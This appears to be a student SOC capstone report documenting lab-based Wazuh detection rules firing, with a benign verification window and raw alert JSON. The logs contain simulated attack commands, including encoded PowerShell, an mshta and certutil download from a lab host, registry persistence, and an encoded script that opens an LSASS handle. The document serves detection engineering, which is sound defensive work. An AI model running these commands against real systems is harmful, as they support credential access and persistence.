


# Sub-task 1.2 & 1.3 — Live Detection Rule Firing & Benign Verification Evidence

All **10 custom detection rules** (plus correlation rule `100200` = **11 total rule IDs** from the team's Detection Rule Pack) were deployed into `/var/ossec/etc/rules/local_rules.xml` on `SOC-Wazuh` (`192.168.99.10`), validated with `wazuh-analysisd -t` (0 errors), and triggered live against `Win10` (`192.168.99.30`) and `ubuntu-01` (`192.168.99.40`).

## 1. Summary of Live Fired Alerts

| Rule ID | MITRE ATT&CK v19 | Host | Level | Fired Timestamp (UTC) | Wazuh Alert ID | Alert Description |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| `100005` | `T1059.001` | `Win10` | `10` | `2026-10-19T18:43:30.754+0000` | `1792435410.10265946` | SOC-100005 [T1059.001]: Suspicious PowerShell execution with encoded command or download cradle (\"C:\\WINDOWS\\System32\\WindowsPowerShell\\v1.0\\powershell.exe\" -NoProfile -enc dwBoAG8AYQBtAGkA) |
| `100007` | `T1110` | `Win10` | `10` | `2026-10-19T18:43:36.474+0000` | `1792435416.10498691` | SOC-100007 [T1110]: Brute force detected - 5 failed logons (Event 4625) for user soc within 2 minutes |
| `100013` | `T1105` | `Win10` | `10` | `2026-10-19T18:49:42.921+0000` | `1792435782.11199872` | SOC-100013 [T1105]: LOLBin file download detected via C:\\Windows\\System32\\mshta.exe (\"C:\\WINDOWS\\system32\\mshta.exe\" http://192.168.99.40/index.html) |
| `100200` | `T1110, T1078` | `Win10` | `13` | `2026-10-19T18:47:04.854+0000` | `1792435624.10848364` | SOC-100200 [T1110 CORRELATION]: Successful logon (Event 4624) for soc within 5 minutes of brute-force alert (100007) |
| `100201` | `T1003.001` | `Win10` | `14` | `2026-10-19T18:52:15.234+0000` | `1792435935.11655772` | SOC-100201 [T1003.001]: Process C:\\WINDOWS\\System32\\WindowsPowerShell\\v1.0\\powershell.exe accessed lsass.exe memory with rights 0x1000 |
| `100202` | `T1098.004` | `ubuntu-01` | `10` | `2026-10-19T17:57:36.152+0000` | `1792432656.1943874` | SOC-100202 [T1098.004]: Write to SSH authorized_keys (/home/kali/.ssh/authorized_keys) by process /usr/bin/truncate (uid=0) |
| `100203` | `T1053.003` | `ubuntu-01` | `8` | `2026-10-19T17:59:14.292+0000` | `1792432754.1954623` | SOC-100203 [T1053.003]: Linux crontab command executed by uid=1000 (auid=1000) to edit or replace scheduled jobs |
| `100204` | `T1021.001` | `Win10` | `8` | `2026-10-19T18:54:54.754+0000` | `1792436094.12267612` | SOC-100204 [T1021.001]: Remote Desktop (Logon Type 10) into Win10 by soc from 192.168.99.1 |
| `100205` | `T1218.011` | `Win10` | `9` | `2026-10-19T18:43:33.350+0000` | `1792435413.10313232` | SOC-100205 [T1218.011]: Suspicious rundll32 proxy execution (\"C:\\WINDOWS\\system32\\rundll32.exe\" url.dll,FileProtocolHandler calc.exe) |
| `100206` | `T1547.001` | `Win10` | `9` | `2026-10-19T18:43:34.422+0000` | `1792435414.10413649` | SOC-100206 [T1547.001]: Registry Run/RunOnce persistence value set at HKU\\S-1-5-21-2093812193-1135278953-2291312261-1000\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\T -> calc.exe by C:\\WINDOWS\\system32\\reg.exe |
| `100207` | `T1685.005` | `Win10` | `12` | `2026-10-19T18:52:16.445+0000` | `1792435936.11665474` | SOC-100207 [T1685.005]: Windows Event Log (Security) cleared (Event 1102) on Win10 |

### Live Wazuh SIEM Screenshots (`evidence/Screenshots/`)






---

## 2. Benign Verification Window (Post-Tuning)

- **Benign Test Window Start (UTC)**: `2026-10-19T18:56:20`
- **Benign Commands Executed**:
  1. `powershell -NoProfile -Command "Get-Date"` (`Win10`)
  2. Single failed logon attempt (`Win10`)
  3. Normal `svchost.exe`, `CompatTelRunner.exe`, and `MsMpEng.exe` background `0x1000` queries on `lsass.exe` (`Win10`)
  4. `certutil.exe -?` (`Win10`)
  5. `crontab -l` (`ubuntu-01`)
  6. `cat /home/kali/.ssh/authorized_keys` (`ubuntu-01`)
  7. Local console logon Type 2 (`Win10`)
  8. Normal `rundll32.exe` invocation without proxy/script DLLs (`Win10`)
  9. `reg.exe query "HKCU\Software\Microsoft\Windows\CurrentVersion\Run"` (`Win10`)
  10. `wevtutil.exe gli Security` (`Win10`)
- **Custom `100xxx` Alerts Fired During Benign Test Window**: **`0` (Zero False Positives)**

---

## 3. Pre-Tuning False Positive Evidence (Used for Sub-task 1.3 Tuning & Sub-task 1.5 Incident B)

Before tuning `Rule 100201`, Windows background services (`C:\WINDOWS\system32\svchost.exe`, `CompatTelRunner.exe`) and Windows Defender (`C:\Program Files\Windows Defender\MsMpEng.exe`) querying `lsass.exe` with `PROCESS_QUERY_LIMITED_INFORMATION` (`0x1000`) triggered `Rule 100201` because `windows_eventchannel` decodes file paths with doubled backslashes (`\\`) and Defender on Windows 11 24H2 executes from `C:\Program Files\Windows Defender\MsMpEng.exe`.

```json
{
  "timestamp": "2026-10-19T18:41:42.685+0000",
  "rule": {
    "level": 14,
    "description": "SOC-100201 [T1003.001]: Process C:\\\\WINDOWS\\\\system32\\\\svchost.exe accessed lsass.exe memory with rights 0x1000",
    "id": "100201",
    "mitre": {
      "id": [
        "T1003.001"
      ],
      "tactic": [
        "Credential Access"
      ],
      "technique": [
        "LSASS Memory"
      ]
    },
    "firedtimes": 117,
    "mail": true,
    "groups": [
      "local",
      "soc_capstone",
      "credential_access",
      "lsass_dump"
    ]
  },
  "agent": {
    "id": "002",
    "name": "Win10",
    "ip": "192.168.99.30"
  },
  "manager": {
    "name": "wazuh.manager"
  },
  "id": "1792435302.10002254",
  "full_log": "{\"win\":{\"system\":{\"providerName\":\"Microsoft-Windows-Sysmon\",\"providerGuid\":\"{5770385f-c22a-43e0-bf4c-06f5698ffbd9}\",\"eventID\":\"10\",\"version\":\"3\",\"level\":\"4\",\"task\":\"10\",\"opcode\":\"0\",\"keywords\":\"0x8000000000000000\",\"systemTime\":\"2026-10-19T18:41:41.9917038Z\",\"eventRecordID\":\"3247\",\"processID\":\"6932\",\"threadID\":\"2332\",\"channel\":\"Microsoft-Windows-Sysmon/Operational\",\"computer\":\"Win10\",\"severityValue\":\"INFORMATION\",\"message\":\"\\\"Process accessed:\\r\\nRuleName: technique_id=T1003.001,technique_name=LSASS Memory\\r\\nUtcTime: 2026-10-19 18:41:41.991\\r\\nSourceProcessGUID: {659b395a-5b89-6ad6-1100-000000000300}\\r\\nSourceProcessId: 1036\\r\\nSourceThreadId: 6884\\r\\nSourceImage: C:\\\\WINDOWS\\\\system32\\\\svchost.exe\\r\\nTargetProcessGUID: {659b395a-5b88-6ad6-0c00-000000000300}\\r\\nTargetProcessId: 872\\r\\nTargetImage: C:\\\\WINDOWS\\\\system32\\\\lsass.exe\\r\\nGrantedAccess: 0x1000\\r\\nCallTrace: C:\\\\WINDOWS\\\\SYSTEM32\\\\ntdll.dll+15f2c4|C:\\\\WINDOWS\\\\System32\\\\KERNELBASE.dll+c4d7b|c:\\\\windows\\\\system32\\\\lsm.dll+84d6|c:\\\\windows\\\\system32\\\\lsm.dll+7fad|C:\\\\WINDOWS\\\\System32\\\\RPCRT4.dll+d1913|C:\\\\WINDOWS\\\\System32\\\\RPCRT4.dll+d618e|C:\\\\WINDOWS\\\\System32\\\\RPCRT4.dll+85cdc|C:\\\\WINDOWS\\\\System32\\\\RPCRT4.dll+83897|C:\\\\WINDOWS\\\\System32\\\\RPCRT4.dll+360f4|C:\\\\WINDOWS\\\\System32\\\\RPCRT4.dll+37108|C:\\\\WINDOWS\\\\System32\\\\RPCRT4.dll+300b4|C:\\\\WINDOWS\\\\System32\\\\RPCRT4.dll+3463a|C:\\\\WINDOWS\\\\System32\\\\RPCRT4.dll+3a65c|C:\\\\WINDOWS\\\\System32\\\\RPCRT4.dll+397e3|C:\\\\WINDOWS\\\\System32\\\\RPCRT4.dll+38788|C:\\\\WINDOWS\\\\SYSTEM32\\\\ntdll.dll+51683|C:\\\\WINDOWS\\\\SYSTEM32\\\\ntdll.dll+51fa3|C:\\\\WINDOWS\\\\System32\\\\KERNEL32.DLL+2dbe7|C:\\\\WINDOWS\\\\SYSTEM32\\\\ntdll.dll+85a6c\\r\\nSourceUser: NT AUTHORITY\\\\SYSTEM\\r\\nTargetUser: NT AUTHORITY\\\\SYSTEM\\\"\"},\"eventdata\":{\"ruleName\":\"technique_id=T1003.001,technique_name=LSASS Memory\",\"utcTime\":\"2026-10-19 18:41:41.991\",\"sourceProcessGUID\":\"{659b395a-5b89-6ad6-1100-000000000300}\",\"sourceProcessId\":\"1036\",\"sourceThreadId\":\"6884\",\"sourceImage\":\"C:\\\\\\\\WINDOWS\\\\\\\\system32\\\\\\\\svchost.exe\",\"targetProcessGUID\":\"{659b395a-5b88-6ad6-0c00-000000000300}\",\"targetProcessId\":\"872\",\"targetImage\":\"C:\\\\\\\\WINDOWS\\\\\\\\system32\\\\\\\\lsass.exe\",\"grantedAccess\":\"0x1000\",\"callTrace\":\"C:\\\\\\\\WINDOWS\\\\\\\\SYSTEM32\\\\\\\\ntdll.dll+15f2c4|C:\\\\\\\\WINDOWS\\\\\\\\System32\\\\\\\\KERNELBASE.dll+c4d7b|c:\\\\\\\\windows\\\\\\\\system32\\\\\\\\lsm.dll+84d6|c:\\\\\\\\windows\\\\\\\\system32\\\\\\\\lsm.dll+7fad|C:\\\\\\\\WINDOWS\\\\\\\\System32\\\\\\\\RPCRT4.dll+d1913|C:\\\\\\\\WINDOWS\\\\\\\\System32\\\\\\\\RPCRT4.dll+d618e|C:\\\\\\\\WINDOWS\\\\\\\\System32\\\\\\\\RPCRT4.dll+85cdc|C:\\\\\\\\WINDOWS\\\\\\\\System32\\\\\\\\RPCRT4.dll+83897|C:\\\\\\\\WINDOWS\\\\\\\\System32\\\\\\\\RPCRT4.dll+360f4|C:\\\\\\\\WINDOWS\\\\\\\\System32\\\\\\\\RPCRT4.dll+37108|C:\\\\\\\\WINDOWS\\\\\\\\System32\\\\\\\\RPCRT4.dll+300b4|C:\\\\\\\\WINDOWS\\\\\\\\System32\\\\\\\\RPCRT4.dll+3463a|C:\\\\\\\\WINDOWS\\\\\\\\System32\\\\\\\\RPCRT4.dll+3a65c|C:\\\\\\\\WINDOWS\\\\\\\\System32\\\\\\\\RPCRT4.dll+397e3|C:\\\\\\\\WINDOWS\\\\\\\\System32\\\\\\\\RPCRT4.dll+38788|C:\\\\\\\\WINDOWS\\\\\\\\SYSTEM32\\\\\\\\ntdll.dll+51683|C:\\\\\\\\WINDOWS\\\\\\\\SYSTEM32\\\\\\\\ntdll.dll+51fa3|C:\\\\\\\\WINDOWS\\\\\\\\System32\\\\\\\\KERNEL32.DLL+2dbe7|C:\\\\\\\\WINDOWS\\\\\\\\SYSTEM32\\\\\\\\ntdll.dll+85a6c\",\"sourceUser\":\"NT AUTHORITY\\\\\\\\SYSTEM\",\"targetUser\":\"NT AUTHORITY\\\\\\\\SYSTEM\"}}}",
  "decoder": {
    "name": "windows_eventchannel"
  },
  "data": {
    "win": {
      "system": {
        "providerName": "Microsoft-Windows-Sysmon",
        "providerGuid": "{5770385f-c22a-43e0-bf4c-06f5698ffbd9}",
        "eventID": "10",
        "version": "3",
        "level": "4",
        "task": "10",
        "opcode": "0",
        "keywords": "0x8000000000000000",
        "systemTime": "2026-10-19T18:41:41.9917038Z",
        "eventRecordID": "3247",
        "processID": "6932",
        "threadID": "2332",
        "channel": "Microsoft-Windows-Sysmon/Operational",
        "computer": "Win10",
        "severityValue": "INFORMATION",
        "message": "\"Process accessed:\r\nRuleName: technique_id=T1003.001,technique_name=LSASS Memory\r\nUtcTime: 2026-10-19 18:41:41.991\r\nSourceProcessGUID: {659b395a-5b89-6ad6-1100-000000000300}\r\nSourceProcessId: 1036\r\nSourceThreadId: 6884\r\nSourceImage: C:\\WINDOWS\\system32\\svchost.exe\r\nTargetProcessGUID: {659b395a-5b88-6ad6-0c00-000000000300}\r\nTargetProcessId: 872\r\nTargetImage: C:\\WINDOWS\\system32\\lsass.exe\r\nGrantedAccess: 0x1000\r\nCallTrace: C:\\WINDOWS\\SYSTEM32\\ntdll.dll+15f2c4|C:\\WINDOWS\\System32\\KERNELBASE.dll+c4d7b|c:\\windows\\system32\\lsm.dll+84d6|c:\\windows\\system32\\lsm.dll+7fad|C:\\WINDOWS\\System32\\RPCRT4.dll+d1913|C:\\WINDOWS\\System32\\RPCRT4.dll+d618e|C:\\WINDOWS\\System32\\RPCRT4.dll+85cdc|C:\\WINDOWS\\System32\\RPCRT4.dll+83897|C:\\WINDOWS\\System32\\RPCRT4.dll+360f4|C:\\WINDOWS\\System32\\RPCRT4.dll+37108|C:\\WINDOWS\\System32\\RPCRT4.dll+300b4|C:\\WINDOWS\\System32\\RPCRT4.dll+3463a|C:\\WINDOWS\\System32\\RPCRT4.dll+3a65c|C:\\WINDOWS\\System32\\RPCRT4.dll+397e3|C:\\WINDOWS\\System32\\RPCRT4.dll+38788|C:\\WINDOWS\\SYSTEM32\\ntdll.dll+51683|C:\\WINDOWS\\SYSTEM32\\ntdll.dll+51fa3|C:\\WINDOWS\\System32\\KERNEL32.DLL+2dbe7|C:\\WINDOWS\\SYSTEM32\\ntdll.dll+85a6c\r\nSourceUser: NT AUTHORITY\\SYSTEM\r\nTargetUser: NT AUTHORITY\\SYSTEM\""
      },
      "eventdata": {
        "ruleName": "technique_id=T1003.001,technique_name=LSASS Memory",
        "utcTime": "2026-10-19 18:41:41.991",
        "sourceProcessGUID": "{659b395a-5b89-6ad6-1100-000000000300}",
        "sourceProcessId": "1036",
        "sourceThreadId": "6884",
        "sourceImage": "C:\\\\WINDOWS\\\\system32\\\\svchost.exe",
        "targetProcessGUID": "{659b395a-5b88-6ad6-0c00-000000000300}",
        "targetProcessId": "872",
        "targetImage": "C:\\\\WINDOWS\\\\system32\\\\lsass.exe",
        "grantedAccess": "0x1000",
        "callTrace": "C:\\\\WINDOWS\\\\SYSTEM32\\\\ntdll.dll+15f2c4|C:\\\\WINDOWS\\\\System32\\\\KERNELBASE.dll+c4d7b|c:\\\\windows\\\\system32\\\\lsm.dll+84d6|c:\\\\windows\\\\system32\\\\lsm.dll+7fad|C:\\\\WINDOWS\\\\System32\\\\RPCRT4.dll+d1913|C:\\\\WINDOWS\\\\System32\\\\RPCRT4.dll+d618e|C:\\\\WINDOWS\\\\System32\\\\RPCRT4.dll+85cdc|C:\\\\WINDOWS\\\\System32\\\\RPCRT4.dll+83897|C:\\\\WINDOWS\\\\System32\\\\RPCRT4.dll+360f4|C:\\\\WINDOWS\\\\System32\\\\RPCRT4.dll+37108|C:\\\\WINDOWS\\\\System32\\\\RPCRT4.dll+300b4|C:\\\\WINDOWS\\\\System32\\\\RPCRT4.dll+3463a|C:\\\\WINDOWS\\\\System32\\\\RPCRT4.dll+3a65c|C:\\\\WINDOWS\\\\System32\\\\RPCRT4.dll+397e3|C:\\\\WINDOWS\\\\System32\\\\RPCRT4.dll+38788|C:\\\\WINDOWS\\\\SYSTEM32\\\\ntdll.dll+51683|C:\\\\WINDOWS\\\\SYSTEM32\\\\ntdll.dll+51fa3|C:\\\\WINDOWS\\\\System32\\\\KERNEL32.DLL+2dbe7|C:\\\\WINDOWS\\\\SYSTEM32\\\\ntdll.dll+85a6c",
        "sourceUser": "NT AUTHORITY\\\\SYSTEM",
        "targetUser": "NT AUTHORITY\\\\SYSTEM"
      }
    }
  },
  "location": "EventChannel"
}
```

---

## 4. Full Wazuh Alert JSON Evidence by Rule ID

### Rule `100005` — SOC-100005 [T1059.001]: Suspicious PowerShell execution with encoded command or download cradle (\"C:\\WINDOWS\\System32\\WindowsPowerShell\\v1.0\\powershell.exe\" -NoProfile -enc dwBoAG8AYQBtAGkA)

```json
{
  "timestamp": "2026-10-19T18:43:30.754+0000",
  "rule": {
    "level": 10,
    "description": "SOC-100005 [T1059.001]: Suspicious PowerShell execution with encoded command or download cradle (\\\"C:\\\\WINDOWS\\\\System32\\\\WindowsPowerShell\\\\v1.0\\\\powershell.exe\\\" -NoProfile -enc dwBoAG8AYQBtAGkA)",
    "id": "100005",
    "mitre": {
      "id": [
        "T1059.001"
      ],
      "tactic": [
        "Execution"
      ],
      "technique": [
        "PowerShell"
      ]
    },
    "firedtimes": 2,
    "mail": false,
    "groups": [
      "local",
      "soc_capstone",
      "execution",
      "powershell"
    ]
  },
  "agent": {
    "id": "002",
    "name": "Win10",
    "ip": "192.168.99.30"
  },
  "manager": {
    "name": "wazuh.manager"
  },
  "id": "1792435410.10265946",
  "full_log": "{\"win\":{\"system\":{\"providerName\":\"Microsoft-Windows-Sysmon\",\"providerGuid\":\"{5770385f-c22a-43e0-bf4c-06f5698ffbd9}\",\"eventID\":\"1\",\"version\":\"5\",\"level\":\"4\",\"task\":\"1\",\"opcode\":\"0\",\"keywords\":\"0x8000000000000000\",\"systemTime\":\"2026-10-19T18:43:30.0684966Z\",\"eventRecordID\":\"3279\",\"processID\":\"6932\",\"threadID\":\"2332\",\"channel\":\"Microsoft-Windows-Sysmon/Operational\",\"computer\":\"Win10\",\"severityValue\":\"INFORMATION\",\"message\":\"\\\"Process Create:\\r\\nRuleName: -\\r\\nUtcTime: 2026-10-19 18:43:30.061\\r\\nProcessGuid: {659b395a-64d2-6ad6-5a04-000000000300}\\r\\nProcessId: 1920\\r\\nImage: C:\\\\Windows\\\\System32\\\\WindowsPowerShell\\\\v1.0\\\\powershell.exe\\r\\nFileVersion: 10.0.26100.1 (WinBuild.160101.0800)\\r\\nDescription: Windows PowerShell\\r\\nProduct: Microsoft\u00ae Windows\u00ae Operating System\\r\\nCompany: Microsoft Corporation\\r\\nOriginalFileName: PowerShell.EXE\\r\\nCommandLine: \\\"C:\\\\WINDOWS\\\\System32\\\\WindowsPowerShell\\\\v1.0\\\\powershell.exe\\\" -NoProfile -enc dwBoAG8AYQBtAGkA \\r\\nCurrentDirectory: C:\\\\Users\\\\soc\\\\\\r\\nUser: WIN10\\\\soc\\r\\nLogonGuid: {659b395a-64cf-6ad6-935b-e60000000000}\\r\\nLogonId: 0xE65B93\\r\\nTerminalSessionId: 0\\r\\nIntegrityLevel: High\\r\\nHashes: MD5=909A2EEC5534F01DFF87B7D47E57BFF7,SHA256=D3B4B97C2BF97D70E5655FF4C4CA1D8CEF9DED51685CFD764247CFDA98EE68DF,IMPHASH=AFACF6DC9041114B198160AAB4D0AE77\\r\\nParentProcessGuid: {659b395a-64d0-6ad6-5904-000000000300}\\r\\nParentProcessId: 2604\\r\\nParentImage: C:\\\\Windows\\\\System32\\\\WindowsPowerShell\\\\v1.0\\\\powershell.exe\\r\\nParentCommandLine: powershell  -NoProfile -EncodedCommand CgBOAGUAdwAtAEkAdABlAG0AIAAtAEkAdABlAG0AVAB5AHAAZQAgAEQAaQByAGUAYwB0AG8AcgB5ACAALQBQAGEAdABoACAAQwA6AFwAVABlAG0AcAAgAC0ARgBvAHIAYwBlACAAfAAgAE8AdQB0AC0ATgB1AGwAbAAKAAoAIwAgADEALgAgAFIAdQBsAGUAIAAxADAAMAAwADAANQA6ACAAUABvAHcAZQByAFMAaABlAGwAbAAgAGUAbgBjAG8AZABlAGQAIABjAG8AbQBtAGEAbgBkAAoAJABwADEAIAA9ACAAIgBwAG8AdwBlAHIAIgAgACsAIAAiAHMAaABlAGwAbAAuAGUAeABlACIACgAkAGEAMQAgAD0AIAAiAC0ATgBvAFAAcgBvAGYAaQBsAGUAIAAtACIAIAArACAAIgBlAG4AYwAgAGQAdwBCAG8AQQBHADgAQQBZAFEAQgB0AEEARwBrAEEAIgAKAFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAtAEYAaQBsAGUAUABhAHQAaAAgACQAcAAxACAALQBBAHIAZwB1AG0AZQBuAHQATABpAHMAdAAgACQAYQAxACAALQBXAGEAaQB0ACAALQBOAG8ATgBlAHcAVwBpAG4AZABvAHcACgAKACMAIAAyAC4AIABSAHUAbABlACAAMQAwADAAMAAxADMAOgAgAGMAZQByAHQAdQB0AGkAbAAgAGQAbwB3AG4AbABvAGEAZAAKACQAcAAyACAAPQAgACIAYwBlAHIAdAAiACAAKwAgACIAdQB0AGkAbAAuAGUAeABlACIACgAkAGEAMgAgAD0AIAAiAC0AIgAgACsAIAAiAHUAcgBsAGMAYQBjAGgAZQAgAC0AZgAgAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADkAOQAuADQAMAAvACAAQwA6AFwAVABlAG0AcAAHAC4AdAB4AHQAIgAKAFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAtAEYAaQBsAGUAUABhAHQAaAAgACQAcAAyACAALQBBAHIAZwB1AG0AZQBuAHQATABpAHMAdAAgACQAYQAyACAALQBXAGEAaQB0ACAALQBOAG8ATgBlAHcAVwBpAG4AZABvAHcACgAKACMAIAAzAC4AIABSAHUAbABlACAAMQAwADAAMgAwADUAOgAgAHIAdQBuAGQAbABsADMAMgAgAHAAcgBvAHgAeQAgAGUAeABlAGMAdQB0AGkAbwBuAAoAJABwADMAIAA9ACAAIgByAHUAbgAiACAAKwAgACIAZABsAGwAMwAyAC4AZQB4AGUAIgAKACQAYQAzACAAPQAgACIAdQByAGwALgBkAGwAbAAsAEYAaQBsAGUAIgAgACsAIAAiAFAAcgBvAHQAbwBjAG8AbABIAGEAbgBkAGwAZQByACAAYwBhAGwAYwAuAGUAeABlACIACgBTAHQAYQByAHQALQBQAHIAbwBjAGUAcwBzACAALQBGAGkAbABlAFAAYQB0AGgAIAAkAHAAMwAgAC0AQQByAGcAdQBtAGUAbgB0AEwAaQBzAHQAIAAkAGEAMwAKAFMAdABhAHIAdAAtAFMAbABlAGUAcAAgAC0AUwBlAGMAbwBuAGQAcwAgADEACgAKACMAIAA0AC4AIABSAHUAbABlACAAMQAwADAAMgAwADYAOgAgAFIAZQBnAGkAcwB0AHIAeQAgAFIAdQBuACAAawBlAHkAIABwAGUAcgBzAGkAcwB0AGUAbgBjAGUACgByAGUAZwAuAGUAeABlACAAYQBkAGQAIAAiAEgASwBDAFUAXABTAG8AZgB0AHcAYQByAGUAXABNAGkAYwByAG8AcwBvAGYAdABcAFcAaQBuAGQAbwB3AHMAXABDAHUAcgByAGUAbgB0AFYAZQByAHMAaQBvAG4AXABSAHUAbgAiACAALwB2ACAAVAAgAC8AZAAgACIAYwBhAGwAYwAuAGUAeABlACIAIAAvAGYACgBTAHQAYQByAHQALQBTAGwAZQBlAHAAIAAtAFMAZQBjAG8AbgBkAHMAIAAxAAoAcgBlAGcALgBlAHgAZQAgAGQAZQBsAGUAdABlACAAIgBIAEsAQwBVAFwAUwBvAGYAdAB3AGEAcgBlAFwATQBpAGMAcgBvAHMAbwBmAHQAXABXAGkAbgBkAG8AdwBzAFwAQwB1AHIAcgBlAG4AdABWAGUAcgBzAGkAbwBuAFwAUgB1AG4AIgAgAC8AdgAgAFQAIAAvAGYACgAKACMAIAA1AC4AIABSAHUAbABlACAAMQAwADAAMgAwADEAOgAgAEwAUwBBAFMAUwAgAG0AZQBtAG8AcgB5ACAAYQBjAGMAZQBzAHMAIAAoADAAeAAxADAAMQAwACAAUABSAE8AQwBFAFMAUwBfAFYATQBfAFIARQBBAEQAIAB8ACAAUABSAE8AQwBFAFMAUwBfAFEAVQBFAFIAWQBfAEwASQBNAEkAVABFAEQAXwBJAE4ARgBPAFIATQBBAFQASQBPAE4AKQAKACQAYwBvAGQAZQAgAD0AIABAACIACgB1AHMAaQBuAGcAIABTAHkAcwB0AGUAbQA7AAoAdQBzAGkAbgBnACAAUwB5AHMAdABlAG0ALgBSAHUAbgB0AGkAbQBlAC4ASQBuAHQAZQByAG8AcABTAGUAcgB2AGkAYwBlAHMAOwAKAHAAdQBiAGwAaQBjACAAYwBsAGEAcwBzACAATABzAGEAcwBzAFQAZQBzAHQAIAB7AAoAIAAgACAAIABbAEQAbABsAEkAbQBwAG8AcgB0ACgAIgBrAGUAcgBuAGUAbAAzADIALgBkAGwAbAAiACwAIABTAGUAdABMAGEAcwB0AEUAcgByAG8AcgAgAD0AIAB0AHIAdQBlACkAXQAKACAAIAAgACAAcAB1AGIAbABpAGMAIABzAHQAYQB0AGkAYwAgAGUAeAB0AGUAcgBuACAASQBuAHQAUAB0AHIAIABPAHAAZQBuAFAAcgBvAGMAZQBzAHMAKAB1AGkAbgB0ACAAZAB3AEQAZQBzAGkAcgBlAGQAQQBjAGMAZQBzAHMALAAgAGIAbwBvAGwAIABiAEkAbgBoAGUAcgBpAHQASABhAG4AZABsAGUALAAgAGkAbgB0ACAAZAB3AFAAcgBvAGMAZQBzAHMASQBkACkAOwAKACAAIAAgACAAWwBEAGwAbABJAG0AcABvAHIAdAAoACIAawBlAHIAbgBlAGwAMwAyAC4AZABsAGwAIgAsACAAUwBlAHQATABhAHMAdABFAHIAcgBvAHIAIAA9ACAAdAByAHUAZQApAF0ACgAgACAAIAAgAHAAdQBiAGwAaQBjACAAcwB0AGEAdABpAGMAIABlAHgAdABlAHIAbgAgAGIAbwBvAGwAIABDAGwAbwBzAGUASABhAG4AZABsAGUAKABJAG4AdABQAHQAcgAgAGgATwBiAGoAZQBjAHQAKQA7AAoAfQAKACIAQAAKAEEAZABkAC0AVAB5AHAAZQAgAC0AVAB5AHAAZQBEAGUAZgBpAG4AaQB0AGkAbwBuACAAJABjAG8AZABlAAoAJABsAHMAYQBzAHMAUABpAGQAIAA9ACAAKABHAGUAdAAtAFAAcgBvAGMAZQBzAHMAIABsAHMAYQBzAHMAKQAuAEkAZAAKACQAaAAgAD0AIABbAEwAcwBhAHMAcwBUAGUAcwB0AF0AOgA6AE8AcABlAG4AUAByAG8AYwBlAHMAcwAoADAAeAAxADAAMQAwACwAIAAkAGYAYQBsAHMAZQAsACAAJABsAHMAYQBzAHMAUABpAGQAKQAKAFcAcgBpAHQAZQAtAE8AdQB0AHAAdQB0ACAAIgBPAHAAZQBuAGUAZAAgAGwAcwBhAHMAcwAgAFAASQBEACAAJABsAHMAYQBzAHMAUABpAGQAIABoAGEAbgBkAGwAZQA9ACQAaAAiAAoAaQBmACAAKAAkAGgAIAAtAG4AZQAgAFsASQBuAHQAUAB0AHIAXQA6ADoAWgBlAHIAbwApACAAewAgAFsATABzAGEAcwBzAFQAZQBzAHQAXQA6ADoAQwBsAG8AcwBlAEgAYQBuAGQAbABlACgAJABoACkAIAB8ACAATwB1AHQALQBOAHUAbABsACAAfQAKAAoAIwAgADYALgAgAFIAdQBsAGUAIAAxADAAMAAwADAANwAgACsAIAAxADAAMAAyADAAMAA6ACAANQAgAGYAYQBpAGwAZQBkACAAbABvAGcAbwBuAHMAIAAoADQANgAyADUAKQAgAGYAbwBsAGwAbwB3AGUAZAAgAGIAeQAgADEAIABzAHUAYwBjAGUAcwB